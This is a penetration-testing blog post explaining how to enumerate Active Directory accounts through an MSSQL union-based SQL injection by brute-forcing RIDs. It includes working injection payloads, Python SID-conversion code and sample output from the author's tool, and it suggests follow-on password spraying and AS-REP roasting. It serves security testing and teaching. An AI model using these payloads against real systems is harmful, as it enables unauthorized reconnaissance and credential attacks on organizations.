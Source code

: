 ```yaml
---
layout: post
title: 'Active Directory Enumeration via MSSQL Injection'
date: '2020-03-22T12:00:00.000-00:00'
author: Keramas
tags: [active directory, sqli, penetration testing]
---
```


You found a SQL injection on an MSSQL server, but the functionality is limited, you can't execute commands, you can retrieve some user hashes out of a table, but they don't crack--you can even get a NTLMv2 hash using xp_dirtree, which also doesn't crack. All the data in the tables you see is pretty much useless. Now what?

Luckily, there is still plenty of potential for taking advantage of this vulnerability. Despite being a slightly older technique and piece of knowledge, it's possible to extract users, groups, and machine names from an Active Directory environment via SQL injection using RID bruteforcing. While this technique was [elaborated on by Scott Sutherland](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/) five years ago, it seems that many are unaware this is possible (including myself prior to coming across this great article). 

The principle is pretty simple:
- Find out the name of the domain
- Find out the SID of the domain
- Build user, group, and machine SIDs by iterating over a range of RIDs to determine names for each of the objects.

### What's a SID and RID?

A `security ID` or SID, is a unique string that Windows uses to identify and reference users, groups, and machine accounts. 

Example:
```
S-1-5-21-4142252318-1896537706-4233180933-1020
```
The `4142252318-1896537706-4233180933` portion uniquely identifies the domain or local computer, and the remaining value at the end (`1020`) is a RID, which is a `relative ID`. RIDs are assigned to any users, groups, or machine accounts which were created in a domain or local computer, and start from 1000. 

This means if we have the domain SID, we can iterate through a range of RIDs in order to make a complete user SID, and return back the plaintext name of what that SID identifies. 

## Overview

A full explanation of what all of this means is described completely in the referenced article, and is easy to digest, but the following is a less verbose overview using a simplified union-based SQL injection as an example. 

### Step 1. Find the name of the domain

Let's assume we have no knowledge of the domain name, we just happened to discover a union-based injection in an application, and determined the backend to be MSSQL. We've already determined the number of columns as well as the type of columns, and we are ready to inject to grab some data. First we will want to identify the name of the domain:

```
' union select 1,1,(select default_domain())--
```

### Step 2. Find out the SID of the domain

With knowledge of the domain name, we can then inject a query using a known built-in account or group (the following example just uses the `Administrator` account) to attain the SID value. Without any kind of typecasting, this returns a binary value, so we wrap it with `sys.fn_varbintohexstr` to make it something we can actually parse easily in the HTTP response.

```
' union select 1,1,(select sys.fn_varbintohexstr(SUSER_SID('{domain}\Administrator')))--
```

This value can be used as-is for subsequent queries, but we are going to convert it into a standard SID string to make it a bit easier. This can be accomplished through the following Python functions:

```python
#Modify the SID hex value retrieved from query 
def prepare_sid(sid):
    hex_string = bytes.fromhex(sid[2:])
    mod_sid = sid_to_str(hex_string)
    domain_sid_data = mod_sid.split('-')[:7]
    domain_sid = '-'.join(domain_sid_data) + "-"

    print(domain_sid+"\n")
    return domain_sid

#Build out the SID string
def sid_to_str(sid):
    if sys.version_info.major < 3:
        revision = ord(sid[0])
    else:
        revision = sid[0]

    if sys.version_info.major < 3:
        number_of_sub_ids = ord(sid[1])
    else:
        number_of_sub_ids = sid[1]
    iav = struct.unpack('>Q', b'\x00\x00' + sid[2:8])[0]
    sub_ids = [struct.unpack('<I', sid[8 + 4 * i:12 + 4 * i])[0]
               for i in range(number_of_sub_ids)]

    return 'S-{0}-{1}-{2}'.format(revision, iav, '-'.join([str(sub_id) for sub_id in sub_ids]))
```

### Step 4. Bruteforce RIDs to get Active Directory data

Now we can begin the bruteforcing of the RIDs to determine Active Directory data. We'll use the SID obtained from the previous step, and then iterate through numbers (i) beginning from 1000.

```
' union select 1,1,((SUSER_SNAME(SID_BINARY(N'{sid}{i}'))))--
```

### Step 5. Profit (hopefully)

The compiled results can then be put into a list which can be passed to tools such as o365spray, Kerbrute, Crackmapexec, etc. to perform password sprays, or could be used in conjunction with Impacket's GetNPUsers to determine ASREP-roastable accounts.

## Automation

While Metasploit already has a module that can yield this information through error-based queries, it is somewhat limited--especially for union-based injections and for times where you need to bypass WAFs. Naturally, if you are using Burp you can set up macros and other rules so you can encode payloads and such--but this becomes a bit too cumbersome to configure sometimes. 

As an alternative, I wrote both a Python script as well as a Burp Suite extender plugin called [MSSQLi-DUET](https://github.com/Keramas/mssqli-duet) to accomplish the above. They are far from perfect, but it is easy to add any kind of SQLmap tamper function to both and customize them as needed to fit the situation. With only a few test cases, there are likely times where this will not work right off the bat, so inspect what is going on with the injection and modify as necessary--the skeleton is there to do anything.

Full usage details can be found within the repository.

### Python script example:
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating Active Directory via SIDs...

NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\bbobberson
NEUTRINO\csagan
NEUTRINO\ccheese
NEUTRINO\svc_web
NEUTRINO\svc_sql
```

### Burp plugin overview

<img src = "/assets/images/plugin-demo.gif">


## References and shoutouts
- [https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

Shoutout to my coworkers `0xZDH` for troubleshooting code problems and `0xC01DF00D` for giving me a headstart on how to make my first GUI Burp plugin!